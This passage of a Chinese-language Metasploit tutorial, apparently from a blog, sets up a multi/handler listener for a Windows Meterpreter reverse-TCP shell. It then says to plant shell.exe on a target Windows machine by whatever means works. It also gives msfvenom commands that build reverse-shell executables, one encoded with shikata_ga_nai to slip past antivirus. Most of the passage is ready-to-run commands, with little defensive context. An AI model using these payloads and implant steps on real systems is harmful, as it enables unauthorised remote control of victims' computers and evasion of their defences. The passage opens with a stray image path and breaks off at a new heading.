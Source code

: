  （还可以加上 -e 加上编码器……）




> 
<h3>3.2、第二步：设置监听</h3>
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.190.131
set LPORT 9999
run

 处于等待状态了


> 
<h3>3.3、第三步：将shell.exe植入到windows运行</h3>
各显神通……
然后等待监听状态
就会监听到运行shell.exe的电脑


> 
<h3>3.4、第四步：get到了</h3>
执行各种……


---


---


## 四、生成shellcode

> 
<h3>4.1、普通生成</h3>
msfvenom -p 有效载荷 -f 输出格式 -o 输出文件
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o /root/payload.exe


> 
<h3>4.2、编码生成</h3>
msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式 -i编码次数 -f 输出格式 -o 输出文件
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=192.168.190.131 lport=8888 -i 3 -e x86/shikata_ga_nai -f exe -o /root/payload.exe

 <img alt="" height="444" src="https://img-blog.csdnimg.cn/569c941654f74c498de3bfdbf20dc376.png" width="634"/>



---


---


## 五、生成格式
